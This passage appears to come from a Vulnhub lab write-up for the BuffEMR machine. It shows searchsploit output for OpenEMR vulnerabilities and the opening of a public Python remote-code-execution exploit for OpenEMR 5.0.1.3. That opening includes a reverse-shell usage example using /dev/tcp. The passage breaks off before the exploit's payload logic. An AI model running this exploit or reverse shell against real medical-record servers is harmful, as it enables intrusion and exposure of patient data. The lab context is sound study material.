 ```zsh
OpenEMR 5.0.1.7 - 'fileName' Path Traversal (Authenticated)                                                                                                                                   | php/webapps/50037.py
OpenEMR 5.0.1.7 - 'fileName' Path Traversal (Authenticated) (2)                                                                                                                               | php/webapps/50087.rb
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                                                                                                                                
❯ searchsploit -m php/webapps/45161.py
  Exploit: OpenEMR 5.0.1.3 - Remote Code Execution (Authenticated)
      URL: https://www.exploit-db.com/exploits/45161
     Path: /usr/share/exploitdb/exploits/php/webapps/45161.py
    Codes: N/A
 Verified: True
File Type: ASCII text
Copied to: /home/ruy/Escritorio/Vulnhub/Machines/BuffEMR/exploits/45161.py
                                                              
❯ mv 45161.py openemr_exploit.py
```

Great! Let's check this exploit code:

```python
# Title: OpenEMR 5.0.1.3 - Remote Code Execution (Authenticated)
# Author: Cody Zacharias
# Date: 2018-08-07
# Vendor Homepage: https://www.open-emr.org/
# Software Link: https://github.com/openemr/openemr/archive/v5_0_1_3.tar.gz
# Dockerfile: https://github.com/haccer/exploits/blob/master/OpenEMR-RCE/Dockerfile
# Version: < 5.0.1 (Patch 4)
# Tested on: Ubuntu LAMP, OpenEMR Version 5.0.1.3
# References:
# https://www.youtube.com/watch?v=DJSQ8Pk_7hc
'''
WARNING: This proof-of-concept exploit WILL replace the GLOBAL config.
If you don't want the OpenEMR config to be reset to default, please modify
the payload.

Example Usage:
- python openemr_rce.py http://127.0.0.1/openemr-5_0_1_3 -u admin -p admin -c 'bash -i >& /dev/tcp/127.0.0.1/1337 0>&1'
'''

#!/usr/bin/env python

import argparse
import base64
import requests
import sys

ap = argparse.ArgumentParser(description="OpenEMR RCE")
ap.add_argument("host", help="Path to OpenEMR (Example: http://127.0.0.1/openemr).")
ap.add_argument("-u", "--user", help="Admin username")
ap.add_argument("-p", "--password", help="Admin password")
ap.add_argument("-c", "--cmd", help="Command to run.")
args = ap.parse_args()

ascii = "> .---.  ,---.  ,---.  .-. .-.,---.          ,---.    <\r\n"
ascii+= ">/ .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\   <\r\n"
ascii+= ">| | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/   <\r\n"
ascii+= ">| | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (    <\r\n"
```